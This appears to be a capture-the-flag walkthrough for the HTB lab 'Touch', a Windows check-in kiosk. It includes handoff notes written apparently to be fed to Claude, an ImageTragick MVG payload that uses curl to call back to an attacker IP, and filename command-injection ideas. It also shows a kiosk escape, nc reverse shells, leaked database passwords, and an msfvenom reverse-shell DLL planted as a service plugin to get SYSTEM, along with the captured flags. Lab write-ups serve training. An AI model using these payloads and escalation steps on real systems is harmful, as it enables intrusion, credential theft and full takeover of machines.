

# Touch

sudo nmap -sCV 10.129.71.188
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-16 13:46 EDT
Nmap scan report for 10.129.71.188
Host is up (0.054s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 24.25 seconds

sudo nmap -p- -T5 10.129.71.188
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-10-16 13:48 EDT
Nmap scan report for 10.129.71.188
Host is up (0.013s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8443/tcp open  https-alt



**Jenny Crawford** / **KS7X2M**


xfreerdp3 /v:10.129.71.188 /u:KioskUser /p:'K!0sk2026#’


```jsx
# HTB "Touch" — Session Context / Handoff

_Last updated: 2026-10-16. Authorized HTB engagement. This is a notes file to resume the box — feed it to Claude at the start of the next session._

## Target
- **Box:** HTB "Touch" (kiosk / check-in machine)
- **Admin panel:** `http://10.129.71.188:8443` (HTTPS likely — it's :8443; try both http/https)
- **My attacker IP (tun0):** `10.10.14.80` (will change on VPN reconnect — re-check with `ip a show tun0`)

## Access so far
- **RDP** into the target works; it boots to a **locked-down kiosk app** (airline/airport self check-in).
- Kiosk flow: Self check-in → select **English** → enter **Booking ref + Last name**.
  - **Booking ref:** `KS7X2M`
  - **Last name:** `Crawford` (passenger of interest: "Jenny Crawford")
- After booking lookup → **Document Verification** screen: "place passport face-down on the scanner" + a **Scan passport** button.
- Found an **admin/management panel** at `10.129.71.188:8443`.
  - **Login:** single-field auth, code/PIN `NX-DH-2024-B7042` authenticates.
  - Feature of interest: **`/scanner`** — lets you **upload the image the scanner will "scan"**. Accepts **JPEG, PNG, TIFF**.

## Working theory
The "scan" step does **no real identity verification** — it processes whatever image you upload at `/scanner`. The acceptance of **TIFF** + ImageMagick being common suggests the scanner **shells out to an image processor** (ImageMagick / Ghostscript / libtiff) or **OCRs** the passport (tesseract) and uses the extracted text downstream. Goal: turn the upload into **RCE** or an **injection / auth-bypass**. No document forgery involved — the exploit is in how the upload is processed.

## Attempts
- **ImageTragick (CVE-2016-3714)** — MVG payload inside a `.png` (and `.mvg` copy), blind callback via `curl` to `http://10.10.14.80:8000/pwned?u=$(whoami)`.
  - Payload file content:
    ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/image.jpg"|curl -s http://10.10.14.80:8000/pwned?u=$(whoami) ")'
    pop graphic-context
    ```
  - Staged at `…/scratchpad/exploit.mvg` and `exploit.png`.
  - Ran `python3 -m http.server 8000` as catcher (self-test confirmed it logs hits).
  - **RESULT: no callback.** So ImageTragick path is dead — app likely validates real image bytes first, or ImageMagick is patched/policy-locked, or it's not ImageMagick.

## Open question (pick up here)
**What does `/scanner` return after an upload?** Not yet captured. Need: error/stack trace (names the library/version), "scan complete" + extracted fields (name/MRZ), an image preview, or a stored URL/path. This decides the next pivot.

## Next pivots to try
1. **Read the scan response / errors** — biggest clue; get library + version.
2. **Filename command injection** — upload a *valid* image named like `$(curl 10.10.14.80:8000/fn).png` or `;curl...;.png` in case backend does `convert <filename> …` unsafely.
3. **Real TIFF (libtiff CVEs)** — a genuine TIFF, in case the fake-PNG was rejected on magic-byte check.
4. **Ghostscript trigger** — crafted PDF/PNG delegate, if GS is in the chain.
5. **OCR injection / auth-bypass** — if it OCRs the passport: embed text that becomes SQLi/command-injection, or that makes the name resolve to another booking/admin.
6. **Stored-and-served upload** — check if the uploaded file is reachable at a URL (→ direct access / other doors).
7. **Fingerprint the panel** — `curl -sk -i https://10.129.71.188:8443/` for headers/product/version; enumerate other admin-panel menus/endpoints beyond `/scanner`.

## Handy commands
```bash
ip a show tun0                                   # re-check attacker IP
curl -sk -i https://10.129.71.188:8443/ | head   # fingerprint panel
python3 -m http.server 8000                       # callback catcher

```


Disable the scanner and click the link. Takes you to a broser. Type in C:\Windows\System32\cmd.exe

```jsx
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.71.237 59031

PS C:\Users\KioskUser> 
PS C:\Users\KioskUser> 
PS C:\Users\KioskUser> whoami
kiosk-042\kioskuser
PS C:\Users\KioskUser> hostname
KIOSK-042
PS C:\Users\KioskUser> cd Desktop
PS C:\Users\KioskUser\Desktop> ls

    Directory: C:\Users\KioskUser\Desktop

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-ar---        10/17/2026   2:22 AM             34 user.txt                                                             

PS C:\Users\KioskUser\Desktop> cat user.txt
4bc8dd0620bdb5a3c6a4ccc887150f39

```

```jsx
There it is — hardcoded MySQL credentials in NexionDocReader.dll:

  🔑 Hardcoded DB credentials

  Server=127.0.0.1;Port=3306;Database=htb_airways;    
  User=nexion_app;Password=Nx!0n_D3v1c3s#DB;
  Server=127.0.0.1;Port=3306;Database=nexion_devices; 
  User=nexion_app;Password=Nx!0n_D3v1c3s#DB;
  - User: nexion_app
  - Password: Nx!0n_D3v1c3s#DB
  - Databases: htb_airways, nexion_devices
  - Host 127.0.0.1:3306 — matches the MySQL you saw bound to loopback
    (127.0.0.1:3306, with 33060 for X-protocol).
cat refresh-dates.bat 
@echo off
C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 < "C:\ProgramData\HTB Airways\refresh-dates.sql" 2>nul

```

```jsx
## NEXT STEPS (resume here)
1. **Quick win first — password reuse:** test MySQL root pw AND `K!0sk2026#` vs Windows Administrator:
   `nxc winrm 10.129.72.230 -u Administrator -p '<pw>'`
2. **Confirm plugin-dir write access** (this is the crux):
   ```
   wmic process where "name='NexionPrinter.exe'" get ExecutablePath
   icacls "C:\Program Files\Nexion Systems\<...>\publish"
   icacls "C:\Program Files\Nexion Systems\<...>\publish\plugins"   (create it if missing)
   ```
   Expect Printer Administrators (us) to have write/create here.
3. **Build plugin DLL.** Native msfvenom `-f dll` does NOT work (managed loader). Use:
   - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.X LPORT=4444 -f csharp -o sc.cs`
   - wrap the shellcode byte[] in a net8.0 classlib: `public class Plugin{ public void Initialize(){ /* VirtualAlloc+copy+CreateThread sc */ } }`
   - `dotnet new classlib -f net8.0` → build → take the .dll
   (Alt payload: Initialize() reads root.txt / adds admin / runs a one-liner.)
4. Copy DLL to `...\publish\plugins\`.
5. Fire trigger: `echo restart > C:\ProgramData\Nexion\printer-restart.trigger`
   OR authenticated `POST http://10.129.72.230:8443/api/printer/restart`.
6. Catch SYSTEM shell (nc listener) → `type C:\Users\Administrator\Desktop\root.txt`.

## Files saved locally (~/)
- `NexionDocReader.dll`, `NexionPrinter.dll` (decompiled above), `NexionPrinter.exe` (apphost stub)
- `HTBAirwaysKiosk.exe`, `Autologon64.exe`, `KioskLauncher.bat`, `kiosk.db` (empty)
- `output.txt` (winpeas, UTF-16+ANSI), `clean_winpeas.txt` (decoded)
- IL disassembler scripts in scratchpad venv: `.../scratchpad/np.py`, `find.py`, `ildis.py`
  (venv at `.../scratchpad/venv` has dnfile+dncil installed)

```

dll did work. Restarted printer service and got a shell

```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4444 -f dll -o NexionPrinter.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: NexionPrinter.dll
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-uigv6r3xnt]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.73.97 - - [20/Oct/2026 09:49:15] "GET /NexionPrinter.dll HTTP/1.1" 200 
```

```jsx
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.73.97 64136
Microsoft Windows [Version 10.0.26100.9457]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami    
whoami
nt authority\system

C:\Windows\System32>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
7c78b6483d10dc01f4e1854ab1be5357

```